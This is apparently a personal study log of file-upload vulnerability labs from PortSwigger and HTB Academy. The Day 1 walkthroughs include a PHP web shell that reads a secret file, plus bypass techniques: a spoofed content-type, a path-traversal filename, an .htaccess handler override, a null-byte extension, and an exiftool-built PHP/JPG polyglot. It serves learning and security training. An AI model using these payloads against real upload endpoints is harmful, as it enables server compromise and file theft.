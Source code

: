 It is during our darkest moments that we must focus to see the light. - Aristotle Onassis

# Week into File Upload Vuln Summary:

| Day  | Content |
| ----- | ------- |
| 1 |   [Completed Port Swigger - File upload vulnerabilities](https://github.com/Th3lazykid/100DaysOfHacking/blob/main/Days/fileuploadweek.md#day---1-completed-port-swigger---file-upload-vulnerabilities)   |
| 2 | [Completed HTB Academy - File upload Attacks Module](https://github.com/Th3lazykid/100DaysOfHacking/blob/main/Days/fileuploadweek.md#day---2-completed-htb-academy---file-upload-attacks-module) |



## Day - 1: Completed Port Swigger - File upload vulnerabilities

Lab 1: Exploiting unrestricted file uploads to deploy a web shell

- cd Desktop - touch try.php - nano try.php
```
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

(https://www.php.net/manual/en/function.file-get-contents.php)

- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 

---

Lab 2: Exploiting flawed validation of file uploads

- Using the previous try.php
- Sending the request to repeater
- Changing the content-type to `image/jpeg`
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 


---

Lab 3: Preventing file execution in user-accessible directories

- Using the previous try.php
- Sending the request to repeater
- Changing the filename to `filename="..%2ftry.php"` - Path Traversal. (Indicates that the file was uploaded to a higher directory in the filesystem hierarchy (/files), and subsequently executed by the server.)
- Navigate to `/files/try.php`
- Submit the secret - Solved.

---

Lab 4: Insufficient blacklisting of dangerous file types

- Using the previous try.php
- Sending the request to repeater
- Notice that php ext is restricted.
- Now in this lab to bypass this blacklist - gotta upload below file. 
	- .htaccess with content `AddType application/x-httpd-php .lol` in it. 
	- with the request we had in the repeater with try.php
	- chaning the filename to `.htaccess` and also the content with `AddType application/x-httpd-php .lol`
	- and uploading the same. 
- Back to same request with `try.php` in repeater - changing the filename to `try.lol`
- Notice that the same has been uploaded.
- Navigate to `/files/avatars/try.lol`
- Submit the secret - Solved.

---

Lab 5: Obfuscating file extensions

- Using the previous try.php
- Sending the request to repeater
- Notice that it says only JPG & PNG files are allowed
- Now in order to bypass this:
	- Chaning the filename to `try.php%00.jpg` - adding nullbyte will strip off the rest and try.php will be uploaded.
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved.

---

Lab 6: Flawed validation of the file's contents

- This is very Interesting lab. In this lab it verifies that if it is a genuine image, hence comes polygot. (Polyglots, in a security context, are files that are a valid form of multiple different file types. - [Vickie li blog](https://vickieli.dev/hacking/polyglot/)) 
- Creating a polyglot PHP/JPG file using exiftool. (normal image, but contains your PHP payload in its metadata.)
	- `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o lmfao.php`
	- Here I downloaded a sample jpg from the internet and used in <YOUR-INPUT-IMAGE>
- Uploaded the lmfao.php
- Navigate to `/files/avatars/lmfao.php`
- Notice the secret is between Start and end in the first line itself
- Submit the secret - Solved.

---

Lab 7: Exploiting file upload race conditions

- Since new to race conditions, simply followed the solution given - also the note in the end of the solution is imp - adding `\r\n\r\n` sequence for GET request. 

---

## Day - 2: [Completed HTB Academy - File upload Attacks Module](https://academy.hackthebox.com/achievement/3444/136)

- I'm not sure if I can share my notes over here, since it's a paid lab [bought it with student subs], but below are the topics I learned - most of them are recap with more info on it. But I do highly suggest you people to go through this module once - pretty neat info. 

- Topics Learned/recaped:
	- Absent Validation
	- Upload Exploitation
		- Web Shell
		- Reverse Shell
	- Client-Side Validation
	- Blacklist Filters: _the web application checks if the extension exists anywhere within the file name._
	- Whitelist Filters: _the web application checks if the file name ends with the extension._
		- Double Extensions
		- Reverse Double Extensions
		- Character Injection
	- Type Filters
	- Decompression Bomb
	- Preventing File Upload Vulnerabilities
		- Extension Validation
		- Content Validation
		- Upload Disclosure
	- Lastly amazing Skills Assessment - Nailed it.

---

	






